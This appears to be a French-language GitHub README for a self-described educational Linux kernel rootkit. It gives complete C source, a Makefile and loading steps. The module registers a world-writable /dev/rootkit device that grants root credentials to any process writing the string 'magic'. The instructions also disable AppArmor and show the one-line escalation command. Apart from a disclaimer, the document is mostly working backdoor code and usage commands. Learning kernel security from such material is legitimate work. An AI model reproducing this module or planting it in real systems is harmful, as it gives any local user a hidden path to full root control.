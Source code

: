 # 🐧 Linux Kernel Rootkit Module — Privilege Escalation (Educational)

> ⚠️ **Disclaimer**  
> Ce module est uniquement destiné à l’**apprentissage** et à la **recherche en cybersécurité**.  
> Ne l’exécute que dans une **VM isolée** avec des snapshots.  
> Ne jamais utiliser en production : il modifie les **credentials kernel** et peut rendre ton système instable.  

---

## 📌 Description

Ce projet implémente un **Linux Kernel Module (LKM)** éducatif qui crée un **périphérique caractère** :  
`/dev/rootkit`  

- Écrire une chaîne **magique** déclenche une élévation de privilèges → l’utilisateur courant devient **root**.  
- Le module utilise un **misc device** pour simplifier l’implémentation.  

---

## 🛠️ Code Source

Fichier : `rootkit.c`

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/fs.h>
#include <linux/miscdevice.h>
#include <linux/cred.h>
#include <linux/uaccess.h>
#include <linux/printk.h>

#define MAGIC "magic"  // Magic string to trigger escalation

static ssize_t rootkit_write(struct file *file, const char __user *buf, size_t count, loff_t *ppos) {
    char kbuf[16];
    size_t len = min(count, sizeof(kbuf) - 1);

    if (copy_from_user(kbuf, buf, len)) {
        pr_err("copy_from_user failed\n");
        return -EFAULT;
    }
    kbuf[len] = '\0';

    if (strncmp(kbuf, MAGIC, strlen(MAGIC)) == 0) {
        extern struct task_struct init_task;
        struct cred *new_cred = prepare_kernel_cred(&init_task);
        if (!new_cred) {
            pr_err("Failed to prepare kernel credentials\n");
            return -ENOMEM;
        }
        commit_creds(new_cred);
        pr_info("[+] Current process escalated to root\n");
    } else {
        pr_info("[-] Invalid magic string\n");
    }

    return count;
}

static const struct file_operations rootkit_fops = {
    .write = rootkit_write,
};

static struct miscdevice rootkit_dev = {
    .minor = MISC_DYNAMIC_MINOR,
    .name = "rootkit",
    .fops = &rootkit_fops,
    .mode = 0666,
};

static int __init rootkit_init(void) {
    int ret = misc_register(&rootkit_dev);
    if (ret) {
        pr_err("Failed to register misc device\n");
        return ret;
    }
    pr_info("Rootkit device loaded: /dev/rootkit\n");
    return 0;
}

static void __exit rootkit_exit(void) {
    misc_deregister(&rootkit_dev);
    pr_info("Rootkit device unloaded\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Me");
MODULE_DESCRIPTION("Educational rootkit module with char device for privilege escalation");
```

---

## ⚙️ Préparation de l’Environnement

Installer les headers du kernel :  
```bash
sudo apt update && sudo apt install linux-headers-$(uname -r)
```

Créer un **Makefile** :  
```makefile
obj-m += rootkit.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

---

## 🚀 Compilation & Chargement

1. Désactiver temporairement AppArmor (si activé) :  
   ```bash
   sudo systemctl disable --now apparmor
   ```

   Pour le réactiver :  
   ```bash
   sudo systemctl enable --now apparmor
   ```

2. Compiler le module :  
   ```bash
   make
   ```

3. Charger le module :  
   ```bash
   sudo insmod rootkit.ko
   ```

4. Vérifier que le périphérique existe :  
   ```bash
   ls /dev/rootkit
   ```

---

## 🔑 Exploitation (Test)

Écrire la chaîne magique pour escalader :  
```bash
echo "magic" > /dev/rootkit
```

Vérifier l’identité :  
```bash
id
```

---

## ✅ Résumé

- 📂 Module installé : `/dev/rootkit`  
- 🔑 Chaîne magique : `"magic"`  
- 🧑‍💻 Effet : Escalade des privilèges → utilisateur → root  

---

> ✨ Utilisation strictement pédagogique.  
> ⚠️ À tester uniquement dans un **environnement contrôlé**.


